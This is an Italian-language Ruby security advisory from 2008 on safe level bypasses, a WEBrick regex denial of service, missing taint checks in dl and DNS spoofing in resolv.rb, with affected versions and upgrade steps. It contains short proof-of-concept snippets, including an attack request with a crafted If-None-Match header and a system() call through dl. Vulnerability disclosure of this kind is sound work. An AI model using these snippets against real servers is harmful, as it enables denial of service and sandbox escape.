 ```yaml
---
layout: news_post
title: "Multiple vulnerabilità in Ruby"
author: "Fabio Cevasco"
lang: it
---
```


Multiple vulnerabilità sono state scoperte in Ruby. Si raccomanda di eseguire un aggiornamento alle ultime versioni.

## Dettagli

Le seguenti vulnerabilità sono state scoperte.

### Molteplici vulnerabilità nel safe level

Molteplici vulnerabilità nel \_safe level\_ sono state scoperte:

* untrace\_var è permesso in safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME può essere moficato in safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Metodi non sicuri possono essere chiamati in safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # ritorna la dimensione sbagliata
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # o 2, o 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # Stampa una stringa la cui lunghezza è inferiore a 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

Queste vulnerabilità sono state notificate da Keita Yamaguchi.

### Vulnerabilità DoS in WEBrick

WEBrick::HTTP::DefaultFileHandler è soggetto a richieste che occupano
tempi esponenziali dovute a un\'espressione regolare retroattiva in
WEBrick::HTTPUtils.split\_header\_value.

Server vulnerabile:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

È possibile che questa richiesta abbia bisogno di un tempo
infinito.

Questa vulnerabilità è stata notificata da Christian Neukirchen.

### Mancanza di controlli di \_taintness\_ in dl
{: #label-3}

dl non controlla la \_taintness\_, e questo potrebbe permettere la
chiamata di funzioni pericolose.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

Questa vulnerabilità è stata notificata da sheepman.

### Vulnerabilità di spoofing del DNS spoofing in resolv.rb

resolv.rb permette ad utenti remoti di mascherare le risposte del DNS.
Questo rischio può essere ridotto randomizzando le ID di transazione e
le porte sorgenti, così resolv.rb è stato corretto per fare proprio
questo.

* vedi anche: [CVE-2008-1447][1]

Questa vulnerabilità è stata notificata da Tanaka Akira.

## Versioni di Ruby vulnerabili

serie 1.8
: * 1\.8.5 e precedenti
  * 1\.8.6-p286 e precedenti
  * 1\.8.7-p71 e precedenti

serie 1.9
: * r18423 e precedenti

## Soluzione

serie 1.8
: Eseguire l\'agggiornamento a 1.8.6-p287 o 1.8.7-p72.

  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

serie 1.9

: Eseguire un checkout dell\'ultima versione tramite Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Nota che un pacchetto che corregge questa vulnerabilità potrebbe essere
già disponibile attraverso il tuo software di package management.

## Crediti

Un sincero ringraziamento a Keita Yamaguchi, Christian Neukirchen,
sheepman, e Tanaka Akira per aver notificato questi problemi al Ruby
Security Team.

## Cambiamenti

* 2008-08-08 12:21 +09:00 Corretto il numero di revisione di Ruby 1.9.
* 2008-08-11 11:23 +09:00 Corretto il patchlevel di Ruby 1.8. vedi
  [L\'annuncio del rilascio di Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/it/news/2008/11/14/ruby-1-8-7-p72-and-1-8-6-p287-released/
